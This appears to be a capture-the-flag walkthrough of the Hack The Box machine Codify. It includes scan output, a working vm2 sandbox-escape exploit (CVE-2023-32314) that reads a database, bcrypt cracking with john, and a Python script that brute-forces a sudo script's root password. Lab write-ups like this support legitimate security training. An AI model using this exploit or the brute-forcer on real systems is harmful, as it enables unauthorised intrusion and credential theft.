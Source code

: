 ![Codify](https://github.com/n0m3l4c000nt35/Hack-The-Box/assets/149972189/6dbf9ae1-584c-4658-b0a1-fcd2d03e828a)

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <ip-victima> -oG allPorts`

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-07 22:22 -03
Initiating SYN Stealth Scan at 22:22
Scanning 10.10.11.239 [65535 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 22:23, 15.40s elapsed (65535 total ports)
Nmap scan report for 10.10.11.239
Host is up, received user-set (0.16s latency).
Scanned at 2023-12-07 22:22:52 -03 for 15s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.68 seconds
           Raw packets sent: 75476 (3.321MB) | Rcvd: 74514 (2.981MB)
```

<br>

```bash
nvim /etc/hosts
<ip-victima>  codify.htb
```

<br>

[http://codify.htb/](http://codify.htb/)

<br>

`nmap -p 22,80,3000 -vvv -n -Pn -sCV 10.10.11.239 -oN targeted`

```bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3000/tcp open  http    syn-ack ttl 63 Node.js Express framework
|_http-title: Codify
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<br>

`gobuster dir -u http://codify.htb -w /usr/share/dirb/wordlists/common.txt -t 20`
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://codify.htb
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/12/07 22:50:47 Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 2921]
/About                (Status: 200) [Size: 2921]
/editor               (Status: 200) [Size: 3123]
/server-status        (Status: 403) [Size: 275] 
                                                
===============================================================
2023/12/07 22:51:26 Finished
===============================================================
```

<br>

[CVE-2023-32314](https://nvd.nist.gov/vuln/detail/CVE-2023-32314)

<br>

`cat /var/www/contact/tickets.db`
```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("cat /var/www/contact/tickets.db").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

<br>

`joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`
```bash
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > hash

john --wordlist=/usr/share/wordlists/rockyou.txt hash

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:00:26 DONE (2023-12-08 00:32) 0.03843g/s 51.88p/s 51.88c/s 51.88C/s winston..eunice
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

<br>

```bash
ssh joshua@10.10.11.239
spongebob1
```

<br>

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 44 columns 184
```

<br>

```bash
ls
cat user.txt
```

> [!IMPORTANT]
> User flag: 30b05689ad7d88dbd41638d1945976f1

<br>

```python
#!/usr/bin/env python3

import string
import subprocess
import os

characters = string.ascii_letters + string.digits
password = ""
password_found = False

while not password_found:
	for character in characters:
		command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
		output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

		if "Password confirmed!" in output:
			password += character
			os.system("clear")
			print(f"Contraseña: {password}")
			break
	else:
		password_found = True
		os.system("clear")
		print(f"\n[+] La contraseña encontrada es: '{password}'")
```

`kljh12k3jhaskjh12kjh3`

<br>

```bash
su root
kljh12k3jhaskjh12kjh3
cd
ls
cat root.txt
```

> [!IMPORTANT]
> Root flag: 94a6c3a4890801e1335907899cd99559
